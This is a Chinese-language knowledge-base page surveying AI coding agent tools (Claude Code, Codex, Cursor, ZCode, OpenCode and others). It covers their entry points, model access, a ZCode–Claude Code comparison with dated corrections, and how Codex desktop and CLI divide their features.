






# AI 编程

<!-- domain: AI 编程 -->
**范围**：AI 编程智能体工具生态、产品形态、选型与权限配置。

**综述**：编程智能体通过读取项目、修改文件、调用工具和验证结果形成闭环。选型先比较终端、IDE、桌面、云端及应用构建平台的入口和工作方式，再以实际仓库验证质量、耗时、费用与地区可用性；旧清单不作为当前排名。OpenCode 的模型可用性取决于已配置提供商。ZCode 的桌面打包与 CLI 分发方式分别理解。WASM 可以封装为 MCP 工具，其隔离与系统能力依赖宿主；云端并发仍需设计状态、认证和资源约束。MCP 启动命令、传输方式、部署位置与并发能力是不同维度；本地服务器权限和远程数据暴露需分别评估。Codex 的完整访问设置涉及命令审批和沙箱，具体配置及产品变更按问题日期重新核实。Codex 桌面与 CLI 共享代理框架，主要差在项目管理、预览与浏览器交互，以及终端脚本和 CI 集成；不能按入口推定编程强弱。跨工具 Skill 格式与发现路径分别核对；多种工具支持项目 `.agents/skills`，Claude Code 官方列 `.claude/skills`，发现描述不等于正文常驻或必然调用。比较 ZCode 与 Claude Code 时应固定模型；GLM 价格不能算作 ZCode 独有优势。ZCode 已有手机远控、本地定时与聊天渠道；闲时任务可为符合资格的套餐用户节省额度，但有排队、模型与本地执行限制。同模型下的任务收益仍需实测。
<!-- /domain -->

编程智能体（AI Agent）读取项目、修改文件、调用工具、验证结果，形成工作闭环。本领域主线：工具与入口选型、模型接入、工具封装与云端部署、权限与技能共享。清单与对比以官方文档核实为界，不构成当前排名。

## 编程智能体工具全景

代表性清单包含 12 个海外工程开发工具或系列、9 个国内厂商工具或系列、5 个国际开源工具和 4 个海外应用构建平台。同一产品可以同时提供终端、IDE、桌面与云端入口，不能按入口重复计数。

收录口径：

- 集成开发环境（Integrated Development Environment，IDE）与命令行界面（Command-Line Interface，CLI）是入口形态；文中把 CLI 写作「终端」。
- 国内外按产品团队背景划分；Qoder 的国际产品仍放在国内厂商组。
- 「特点」概括官方能力描述，不代表已实测的质量优势。
- 开源工具仍可能产生模型调用、托管或企业功能费用，不等于整套服务免费。

### 海外工程开发工具：12 个

| 工具 / 系列 | 厂商 / 团队 | 主要入口 | 官方描述的特点与一手来源 |
| --- | --- | --- | --- |
| Claude Code | Anthropic | 终端、IDE、桌面、网页 | 读库、跨文件改动、执行命令与验证；[概览](https://code.claude.com/docs/en/overview) |
| Codex | OpenAI | 终端、IDE、桌面、云端 | 本地修改和执行检查，云端可并行委派任务；[CLI](https://learn.chatgpt.com/docs/codex/cli)、[云端](https://learn.chatgpt.com/docs/cloud) |
| Cursor | Cursor 团队 | AI 编辑器、终端、云端 | Agent 检索项目、编辑文件、运行终端与浏览器工具；[Agent 概览](https://cursor.com/docs/agent/overview) |
| GitHub Copilot | GitHub / Microsoft | IDE、桌面、终端、云端 | IDE Agent 执行多步骤任务，云端 Agent 可接收 issue 并准备 pull request；[IDE Agent](https://docs.github.com/en/copilot/how-tos/chat-with-copilot/chat-in-ide)、[云端 Agent](https://docs.github.com/en/copilot/how-tos/copilot-on-github/use-copilot-agents/overview)、[桌面](https://docs.github.com/en/copilot/how-tos/github-copilot-app/agent-sessions)、[CLI](https://docs.github.com/en/copilot/concepts/agents/copilot-cli/autopilot) |
| Devin / Devin Desktop | Cognition | 云端、桌面 IDE、终端 | 云端执行开发任务，桌面统一管理本地与云端 Agent；Devin Desktop 为 Windsurf 后续产品；[Devin](https://docs.devin.ai/get-started/devin-intro)、[官方发布说明](https://cognition.com/blog/introducing-devin-desktop) |
| Gemini CLI | Google | 终端 | 开源终端 Agent，可使用文件、Shell 和搜索工具；[官方仓库](https://github.com/google-gemini/gemini-cli)、[工具参考](https://geminicli.com/docs/reference/tools/) |
| Antigravity | Google | 桌面、IDE、终端 | 管理并行 Agent，结合编辑器、终端和浏览器执行开发任务；[官网](https://www.antigravity.google/)、[概览](https://antigravity.google/docs/overview) |
| Kiro | AWS | IDE、终端、云端 | 将需求转成规范与任务，并提供事件钩子和 Agent 执行；[官网](https://kiro.dev/)、[CLI](https://kiro.dev/cli/) |
| Junie | JetBrains | JetBrains IDE、终端 | 使用 IDE 语义索引、构建、测试和调试工具；[IDE 文档](https://junie.jetbrains.com/docs/junie-ide-plugin.html)、[正式发布说明](https://blog.jetbrains.com/junie/2026/06/junie-coding-agent-out-of-beta/) |
| Augment Code / Auggie | Augment Code | IDE、终端、自动化平台 | 上下文引擎支撑代码库理解，提供编码、审查和触发式任务；[官方概览](https://docs.augmentcode.com/introduction) |
| Amp | Amp 团队 | 终端、网页、桌面 | 多模型编程 Agent，支持本地执行和每任务独立的云端环境；[官方文档](https://ampcode.com/docs) |
| Droid | Factory | 终端 | 理解代码库、形成计划、修改代码并执行检查；[快速开始](https://docs.factory.ai/droid-cli/quickstart) |

### 国内厂商工具：9 个

| 工具 / 系列 | 厂商 / 团队 | 主要入口 | 官方描述的特点与一手来源 |
| --- | --- | --- | --- |
| TRAE / TraeCode | 字节跳动 | IDE、终端 | IDE 模式与 SOLO 模式；支持规划、编码、测试和预览；[TraeCode 概览](https://docs.trae.cn/ide_what-is-trae-code)、[CLI](https://docs.trae.cn/cli_get-started-with-trae-cli) |
| Qoder / Qoder CN（含原通义灵码） | 阿里云 | IDE、插件、终端 | 国际产品有 Quest 任务委派；国内产品系列已纳入原通义灵码；[Qoder IDE](https://qoder.com/ide)、[Qoder CN](https://help.aliyun.com/zh/lingma) |
| Qwen Code | 阿里 Qwen 团队 | 终端、桌面、编辑器 | 开源 Agent，支持多模型、子 Agent 和工具扩展；[官方仓库](https://github.com/QwenLM/qwen-code) |
| CodeBuddy | 腾讯云 | IDE、插件、终端 | 复杂开发任务分步执行、查看变更与预览；[智能体模式](https://www.codebuddy.cn/docs/ide/User-guide/Agent-Mode/Overview)、[官网](https://www.codebuddy.cn/) |
| 文心快码 Comate | 百度 | IDE、插件 | 内置 Zulu 和专业 Agent，支持多文件编辑、终端与多 Agent 协作；[产品介绍](https://comate.baidu.com/docs/vscode.html) |
| 华为云码道 CodeArts 代码智能体 | 华为云 | IDE、终端 | 项目级开发，提供探索/规范模式以及 Build/Plan Agent；[产品介绍](https://support.huaweicloud.com/intl/zh-cn/productdesc-codeartsagent/codeartsagent_pd_0001.html)、[CLI Agent](https://support.huaweicloud.com/intl/zh-cn/usermanual-cli/codeartsagent_cli_0031.html) |
| Kimi Code | 月之暗面 | 终端、桌面、VS Code | 读写代码、执行命令和验证结果；当前 CLI 已升级为 Node.js 版本；[官方概览](https://www.kimi.com/code/docs/en/) |
| ZCode | 智谱 | 桌面开发环境 | 自研 ZCode Agent 驱动编码、调试与浏览器预览，支持自配模型服务；[官方问答](https://zcode.z.ai/cn/docs/qa) |
| CoStrict | 深信服 / CoStrict 团队 | 插件、终端、云端 | 开源、支持私有部署；规范流程包括需求、设计、任务和测试；[官方仓库](https://github.com/zgsm-ai/costrict) |

### 国际开源工具：5 个

| 工具 | 主要入口 | 官方描述的特点与一手来源 |
| --- | --- | --- |
| Cline | VS Code、JetBrains、终端 | 文件操作、终端与浏览器工具，支持自带模型凭据；[官方文档](https://docs.cline.bot/cline-overview) |
| Kilo Code / Kilo | IDE、终端、云端 | 多入口编码 Agent，并有代码审查和云端任务；[官网](https://kilo.ai/) |
| OpenCode | 终端、桌面、IDE | 可接多家模型或本地模型，支持并行会话；[官网](https://opencode.ai/) |
| Aider | 终端 | 偏结对编程，集成 Git；可自动运行 lint/测试并修复反馈的问题；[官网](https://aider.chat/) |
| OpenHands | 云端、自托管、本地 | 开源核心支撑可执行工程任务的 Agent 平台；[官网](https://www.openhands.dev/) |

### 海外应用构建平台：4 个

| 工具 | 厂商 | 主要工作方式与一手来源 |
| --- | --- | --- |
| Replit Agent | Replit | 在云端环境生成、运行和测试应用；[官方概览](https://docs.replit.com/features/agent/overview) |
| Lovable | Lovable | 自然语言生成前端、后端、数据库和认证，并支持发布；[官方概览](https://docs.lovable.dev/introduction/welcome) |
| Bolt.new | StackBlitz | 在浏览器中构建网站和应用，集成数据库与发布；[官方帮助](https://support.bolt.new/) |
| v0 | Vercel | 生成可预览的网站/应用代码，通过执行反馈修复生成错误；[官方工程说明](https://vercel.com/blog/how-we-made-v0-an-effective-coding-agent) |

### 旧名称和服务状态

- Windsurf：2026-06-02 官方发布 Devin Desktop，称为 Windsurf 的下一代；与 Devin 合并为一个产品系列计数。[一手：发布说明](https://cognition.com/blog/introducing-devin-desktop)
- 通义灵码：阿里云现行入口为 Qoder CN 系列，正文保留「原通义灵码」的产品关系，不将旧名称另算新产品。[一手：现行文档](https://help.aliyun.com/zh/lingma)
- Roo Code：官方仓库于 2026-05-15 归档，不列为持续维护的现行项目；原官网跳转至原作者的新产品 Roomote。Roomote 标明 source-available，不能据此称其为开源。[一手：仓库](https://github.com/RooCodeInc/Roo-Code)、[一手：Roomote](https://roomote.dev/)
- iFlow CLI：官方于 2026-04-17 关闭托管模型调用、搜索等服务；现存客户端仍支持 OpenAI 兼容自定义模型。官网旧快速开始仍保留旧认证说明，按明确的官方停服公告判断服务状态。[一手：公告](https://vibex.iflow.cn/t/topic/5753)、[一手：仓库](https://github.com/iflow-ai/iflow-cli)

边界：以上核实产品入口、公开能力、名称与公开服务状态；未安装实测，不做模型质量、成功率、价格或地区可用性排名。部分动态站点抓取失败，改用已读取的第一方文档或官方工程文章作依据。

信源（一手）：[Claude Code 概览](https://code.claude.com/docs/en/overview)、[Codex CLI](https://learn.chatgpt.com/docs/codex/cli)、[TraeCode 概览](https://docs.trae.cn/ide_what-is-trae-code)、[Qoder CN 现行文档](https://help.aliyun.com/zh/lingma)、[Devin Desktop 发布说明](https://cognition.com/blog/introducing-devin-desktop)。

### 证据与时效 · q-20260922-004

- **信源**：[一手] 各工具的官方文档、官网或官方源码仓库，逐项链接见下表；命名变化和停服状态另附官方公告。

## 常驻智能体队友：Grok Bot

Grok Bot 是 SpaceXAI（原 xAI，2026-02-02 并入 SpaceX）于 2026-08-11 发布的常驻智能体产品。用户创建多名有名字、有职责的「AI 队友」；它们 7×24 在线，共享一台按用户隔离的持久云端计算机，能登录用户的工具并以图形界面方式操作，带回完成的工作。它与 Grok 聊天机器人（2023-11-03 发布）和终端编程智能体 Grok Build 是三个产品。

关键事实（2026-09-23 核实）：

- **形态**：桌面客户端（macOS、Windows）与 iOS；以对话方式给 Bot 派活，可多 Bot 并行；本地笔记本关机后云端继续执行。
- **隔离粒度**：同一用户的所有 Bot 共享一台持久云端计算机；文件、浏览器、登录态按用户隔离，不按 Bot 隔离。
- **教学**：Bot 可观看用户演示一遍工作流并存为例行任务，此后自主执行。
- **协作与记忆**：多个 Bot 可进入同一线程互相传递工作；Bot 保留上下文并可互相学习。
- **安全**：敏感操作需经 Auto Review；传输与静态加密；可退出训练；企业版支持 DLP、证书与代理。
- **订阅**：Cursor Pro/Pro+/Ultra、SuperGrok/SuperGrok Plus/Heavy 及 Teams、Enterprise 计划包含；额外用量按 token 成本计费。
- **设计原则**（官方设计文章）：聊天历史变成 Bot 名册；Bot 有在线状态、有自己的计算机；工作可不经提示开始。
- 常被与开源个人智能体 OpenClaw 对比（[二手] Lenny's Newsletter，2026-09-02）。

信源：[一手] [Grok Bot 产品页](https://x.ai/bot)、[SpaceXAI 新闻列表](https://x.ai/news)、[Grok API 文档](https://docs.x.ai)；[二手] The Verge 2026-08-12 报道（发布事件旁证）。

### 证据与时效 · q-20260923-006

- **信源**：[一手] [Grok Bot 产品页](https://x.ai/bot)、[SpaceXAI 新闻列表](https://x.ai/news)、[Grok API 文档](https://docs.x.ai)；[二手] The Verge 2026-08-12 报道（发布事件旁证）

## OpenCode 可用的模型

OpenCode 支持多家在线模型提供商和本地模型；具体可用模型取决于已连接的提供商、凭据与配置。官方 Zen 列有 GPT、Claude、Gemini、Grok、Qwen、DeepSeek、MiniMax、GLM、Kimi 等系列。

查看当前配置下的准确列表：终端输入 `/models`，或运行 `opencode models`。

信源（一手）：[模型文档](https://opencode.ai/docs/models/)、[Zen 模型列表](https://opencode.ai/docs/zen/)、[提供商文档](https://opencode.ai/docs/providers/)、[CLI 文档](https://opencode.ai/docs/cli/)。

### 证据与时效 · q-20260928-002

- **信源**：[一手] [OpenCode 模型文档](https://opencode.ai/docs/models/)；[OpenCode Zen 模型列表](https://opencode.ai/docs/zen/)；[OpenCode 提供商文档](https://opencode.ai/docs/providers/)；[OpenCode CLI 文档](https://opencode.ai/docs/cli/)

## ZCode 与 Claude Code 的差距

比较 ZCode 与 Claude Code 应分开工具与模型两层。

### 产品形态：差距已基本对齐

| 维度 | ZCode | Claude Code |
| --- | --- | --- |
| 终端 | `zcode` CLI/TUI | `claude` CLI |
| 桌面 | Electron 桌面应用 | 桌面应用（mac/win，Linux beta） |
| 浏览器 | `zcode --web` 本地 Web UI | claude.ai/code 云端，无需本地环境 |
| 扩展 | 技能（Skill）、UI 插件、模型上下文协议（Model Context Protocol，MCP）、子代理（MCP 与子代理为本会话 CLI 实测） | CLAUDE.md、技能、hooks、MCP、子代理 |

修正记录：旧判断认为 Claude Code 多出云端托管运行、移动端 App、Slack/Channels 集成、Agent SDK、后台并行 agent、云端定时任务与 GitHub Actions/GitLab CI 集成。2026-10-29 修正：不能把移动使用、聊天渠道和定时任务整体归为 ZCode 缺失能力。ZCode 已提供手机浏览器远控、微信／飞书 Bot Channel 和本地定时任务；手机远控不等于独立移动 App，本地定时也不等于云端托管。Claude Code 官方概览列有移动 App、云端与本地定时任务、Channels 和 Agent SDK，但未对 ZCode 全面排查的能力不能据此断言缺失。[一手：ZCode 自动化](https://zcode.z.ai/cn/docs/automations)、[一手：Remote Control](https://zcode.z.ai/cn/docs/remote-control)、[一手：Bot Channel](https://zcode.z.ai/cn/docs/bot-channel)、[一手：Claude Code 概览](https://code.claude.com/docs/en/overview)。

### 成熟度与生态

- Claude Code：2025-02-24 以 limited research preview 首发，此后约 20 个月周更级迭代（2.1.x 系列）。
- ZCode：仓库公开版本记录自 2026-09-23（v3.14.3）起，2026-10-19 至 v3.16.2；8.3k stars。开源发生于 2026 年 9 月（媒体一致报道；「开源当日仓库仅两次提交」出自 The Next Web，二手，未核实）。
- 智谱同时在 Claude Code 内运营官方插件市场（zai-coding-plugins），GLM 也可服务 Claude Code 用户。

### 模型层

模型层差距无法量化。

- Claude Code 终端与 IDE 入口支持第三方提供商；智谱提供 GLM Coding Plan 的兼容接口接入教程，ZCode 官网也明确套餐支持 ZCode、Claude Code 等多种工具。因此 GLM 的价格、国内服务与模型能力不能算作 ZCode 的独有优势，不能单独构成改用 ZCode 的理由；也不能把「有兼容接入方式」外推为任意模型与全部功能无条件兼容。[一手：智谱接入教程](https://docs.bigmodel.cn/cn/coding-plan/tool/claude)、[一手：ZCode 官网](https://zcode.z.ai/cn)
- ZCode 工具免费；自配智谱服务（GLM Coding Plan 等）、OpenAI 兼容端点或 Anthropic 端点。
- 已核实的同条件对比仅有小模型层：GLM-5.3-Flash 对 Claude Haiku 5.5，Haiku 5.5 多数项领先，GDPval-AA v2.1 上 GLM 略高。不能外推到双方旗舰模型。

### 闲时任务

ZCode 的差异化价值在闲时任务：把「不急于开始」换成「不消耗套餐额度」。符合资格的 Coding Plan 订阅用户把不紧急的本地任务排队执行，自动执行不消耗套餐额度；代码库分析、批量注释和文档同步检查等任务可以交给队列。适合已有套餐且有此类工作的人；这是一项套餐权益理由，未实测其任务质量，也未核实同模型比较中 ZCode 更强。[一手：闲时任务](https://zcode.z.ai/cn/docs/idle-time-tasks)（2026-10-29 核实，面向订阅用户分批开放）

适用条件与限制（均据官方文档，2026-10-29 核实）：

- 需要有效的 ZAI 或 BigModel 个人 Coding Plan；Start Plan 和纯 API Key 模式不支持；团队套餐支持分批开放中。
- 只支持桌面端本地项目；电脑必须保持唤醒。
- 每天创建数量有上限；队列不承诺开始时间。
- 自动执行与分段续跑不扣套餐额度；用户主动发送的追加消息及其驱动的执行正常计入额度；权限确认属于免费自动执行。
- 闲时通道实际使用的模型由服务端统一指定，不保证使用会话界面显示的自选模型；支持前台子代理，不支持后台子代理。

### 结论与修正历史

- 历史结论（已被 2026-10-29 修正）：差距存在：打磨时间（约 20 个月对 1 个多月）、功能广度（云端、移动、SDK、定时任务）、社区与生态规模。修正原因：公开仓库历史不等于产品开发时长；功能存在性必须逐项核实，ZCode 已有手机远控、本地定时和聊天渠道，不能把旧清单直接当作当前能力差距。
- 形态差距已对齐：三端入口与核心扩展机制齐备。
- 模型层差距没有已核实数据；日常任务两者均可用，选型取决于模型偏好、预算与网络条件。如果已用顺 Claude Code + GLM，又不需要闲时任务或其他经实际验证的 ZCode 工作流，现有证据不足以支持迁移。
- 官方「深度联调」是厂商表述，不能替代同模型、同仓库、同任务的实测。

信源（一手）：[zai-org/ZCode 仓库](https://github.com/zai-org/ZCode)、[ZCode 官方问答](https://zcode.z.ai/cn/docs/qa)、[Claude Code 概览](https://code.claude.com/docs/en/overview)、[Anthropic 2025-02-24 公告](https://www.anthropic.com/news/claude-3-7-sonnet)、[智谱：Claude Code 接入 GLM Coding Plan](https://docs.bigmodel.cn/cn/coding-plan/tool/claude)、[ZCode 闲时任务](https://zcode.z.ai/cn/docs/idle-time-tasks)、[ZCode 自动化](https://zcode.z.ai/cn/docs/automations)、[Remote Control](https://zcode.z.ai/cn/docs/remote-control)、[Bot Channel](https://zcode.z.ai/cn/docs/bot-channel)。

### 核查范围

本次核实产品形态、发布时间、开源许可、扩展机制与模型接入方式，依据为官方仓库、官方问答页、官方文档与官方公告；未实测任务成功率、耗时与费用，未核实旗舰模型的同条件基准成绩。

### 证据与时效 · q-20261029-002

- **信源**：[一手] [zai-org/ZCode 仓库](https://github.com/zai-org/ZCode)（Apache-2.0、三形态、v3.16.2、8.3k stars）；[一手] [ZCode 官方问答](https://zcode.z.ai/cn/docs/qa)（智能体开发环境、工具免费、模型自配）；[一手] [Claude Code 概览](https://code.claude.com/docs/en/overview)（入口、能力、模型要求、发布节奏）；[一手] [Anthropic 2025-02-24 公告](https://www.anthropic.com/news/claude-3-7-sonnet)（Claude Code 以 limited research preview 发布）；模型对比数据沿用 [2026-10-08 · GLM 5.3 Flash 与 Haiku 5.5、GPT-6 Luna 对比图总结](AI%20模型.md#q-20261008-003)（仅小模型层）。
- **核实**：2026-10-29 追问复核智谱的 Claude Code 接入教程、ZCode 闲时任务、自动化、手机远控、Bot Channel、欢迎页、官方仓库与 Claude Code 概览。下面历史内容仅对明确标注修正的部分更新；首次发布时间、旧版本统计及原模型基准未重查。网页承诺不等于本会话实测。
- 原记录资料（未在迁移时复核）：[一手：ZCode 欢迎页](https://zcode.z.ai/cn/docs/welcome)

## ZCode 桌面版的打包与分发

桌面版基于 Electron 41，用 electron-builder 打包 mac/win/linux 安装包。这是「JS 与 Chromium+Node.js 运行时一起分发」，不是编译为原生代码。

仓库内真正的编译环节：

CLI 版另有可选的单一可执行应用（Single Executable Application，SEA）打包。

信源（一手）：[ZCode 仓库 README](https://github.com/zai-org/ZCode/blob/master/README.md)、[packages/desktop/package.json](https://github.com/zai-org/ZCode/blob/master/packages/desktop/package.json)、[apps/zcode-cli/package.json](https://github.com/zai-org/ZCode/blob/master/apps/zcode-cli/package.json)。

### 证据与时效 · q-20261019-001

- **信源**：[一手] [ZCode 仓库 README](https://github.com/zai-org/ZCode/blob/master/README.md)、[packages/desktop/package.json](https://github.com/zai-org/ZCode/blob/master/packages/desktop/package.json)、[apps/zcode-cli/package.json](https://github.com/zai-org/ZCode/blob/master/apps/zcode-cli/package.json)

## Codex 桌面端与 CLI 的分工

现行官方桌面入口称为 ChatGPT desktop app，应用内可选择 ChatGPT 或 Codex；本文比较其中的 Codex 与 CLI，不把普通 Chat 模式的能力代入本地 Codex。[一手：桌面应用](https://learn.chatgpt.com/docs/app) 两者共享底层 Codex 代理框架：App、CLI 和 IDE 扩展使用同一框架。宿主仍提供不同的界面、上下文、工具和执行边界；共享框架不能证明行为一致，也不能证明某一入口编码质量更高。比较任务质量时应固定模型、推理强度、指令、工具、权限及执行环境。

已核实差异：

| 维度 | 桌面端中的 Codex | Codex CLI | 已核实的一手依据 |
| --- | --- | --- | --- |
| 本地开发 | 读取项目、编辑文件、运行工具，并在桌面工作区检查成果 | 在终端探索、编辑、执行命令和审查代码 | [桌面概览](https://learn.chatgpt.com/docs/app)、[CLI 概览](https://learn.chatgpt.com/docs/cli) |
| 项目管理 | 有 Projects 视图，可组织项目和聊天；提供 Git 工作树（Git worktree）的创建与聊天迁移流程 | 以启动目录或 `--cd` 指定的目录作为项目；没有桌面 Projects 视图，可恢复已保存会话 | [Projects and chats](https://learn.chatgpt.com/docs/projects)、[Worktrees](https://learn.chatgpt.com/docs/environments/git-worktrees) |
| 审查与成果 | 可以查看代码差异、评论和检查，并打开文档、表格、图片等成果 | 支持本地代码审查，结果主要通过终端呈现 | [Code review](https://learn.chatgpt.com/docs/code-review)、[桌面概览](https://learn.chatgpt.com/docs/app)、[CLI 概览](https://learn.chatgpt.com/docs/cli) |
| 浏览器 | 内置浏览器提供人与智能体共用的网页视图，可以预览本地网页并操作网站 | 官方明确同一内置 Browser 不在 CLI 中提供；联网搜索与浏览器操作是不同能力 | [Browser](https://learn.chatgpt.com/docs/browser)、[CLI 概览](https://learn.chatgpt.com/docs/cli) |
| 定时任务 | 有 Scheduled 管理界面；本地任务需要电脑开机且应用运行，可在项目目录或隔离工作树执行 | 没有 Scheduled 管理界面；外部调度器可以调用 `codex exec` | [Scheduled tasks](https://learn.chatgpt.com/docs/automations)、[Non-interactive mode](https://learn.chatgpt.com/docs/non-interactive-mode) |
| 脚本集成 | 适合通过聊天持续指导和查看执行结果 | `codex exec` 支持标准输入输出、JSONL 事件和按 JSON Schema 约束最终结果，可用于持续集成（Continuous Integration，CI） | [Non-interactive mode](https://learn.chatgpt.com/docs/non-interactive-mode) |
| 扩展与并行 | 支持技能、插件和子智能体；通过应用界面查看活动 | 同样支持技能、插件、模型上下文协议（Model Context Protocol，MCP）和子智能体；交互会话可用 `/subagents` 查看 | [Skills & Plugins](https://learn.chatgpt.com/docs/skills-and-plugins)、[Projects and chats](https://learn.chatgpt.com/docs/projects)、[Subagents](https://learn.chatgpt.com/docs/agent-configuration/subagents) |

注意：当前 CLI 已支持图片输入和联网搜索，不能概括为只能处理纯文本或无法获取网页信息。[一手：CLI 概览](https://learn.chatgpt.com/docs/cli) 桌面端还可通过 Computer Use 插件操作图形界面：官方说明支持地区内的 macOS、Windows 可在 ChatGPT Work 和 Codex 中使用，Windows 使用活动桌面前台；未核实 CLI 有等价的原生集成。

